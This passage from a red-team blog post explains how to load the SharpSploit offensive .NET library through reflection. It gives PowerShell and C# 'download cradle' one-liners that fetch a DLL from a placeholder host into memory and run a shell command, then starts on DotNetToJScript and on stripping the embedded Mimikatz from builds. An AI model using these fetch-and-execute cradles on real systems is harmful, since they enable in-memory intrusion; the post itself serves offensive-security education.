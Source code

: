 One method for utilizing reflection is using PowerShell. For example, we could invoke SharpSploit methods like this:

```
PS > [System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("SharpSploit.dll").GetType("SharpSploit.Execution.Shell").GetMethod("ShellExecute").Invoke(0, @("whoami", "", "", ""))
desktop-f9dq76g\cobbr
```

Or we could load it from a hosted location, and then load the assembly and invoke methods by utilizing reflection:

```
PS > [System.Reflection.Assembly]::Load((new-object net.webclient).DownloadData("https://example.com/SharpSploit.dll").GetType("SharpSploit.Execution.Shell").GetMethod("ShellExecute").Invoke(0, @("whoami", "", "", ""))
desktop-f9dq76g\cobbr
```

And of course, anything we can do from PowerShell, we can do from C#: (as demonstrated in this [gist](https://gist.github.com/cobbr/1d4eb62c17e02c29977d952b3106cb4c))

```
public class Program {
    public static void Main() {
        System.Reflection.Assembly.Load(new System.Net.WebClient().DownloadData("https://example.com/SharpSploit.dll")).GetType("SharpSploit.Execution.Shell").GetMethod("ShellExecute").Invoke(0, @("whoami", "", "", ""));
    }
}
```

For that example, you'll want to remember to compile as a console application. However, you will not need to worry about adding any references, as SharpSploit is loaded through reflection, not through the typically assembly resolving process. Though it is worth noting that Costura's "AssemblyResolve" technique **itself** uses reflection, by utilizing the System.Reflection.Assembly.Load() method.

Reflection is an interesting vector for execution, and can serve as a useful "download cradle" to save on executable size and avoid reference complications. For more information on reflection, I'd recommend checking out [Microsoft's documentation](https://docs.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/reflection).

### DotNetToJScript

[DotNetToJScript](https://github.com/tyranid/DotNetToJScript) is an open source tool written by [James Forshaw](https://twitter.com/tiraniddo) that creates JScript or VBScript files that load a given .NET assembly. However, there are a few limiting factors that make this option less practical for use with SharpSploit. It's still possible, but will require some customization!

The first thing you'll notice is that DotNetToJScript does not work nicely with large assemblies, and by default, SharpSploit is a large assembly:

![Out of Memory]({{site.baseurl}}/assets/images/dn2js-outofmemory.png)

Embedded Mimikatz binaries cause SharpSploit to be large. Luckily, it's easy to choose not to embed the binaries at compile time, if you don't need them. Just comment out a couple lines in the `SharpSploit.csproj` file, like so:
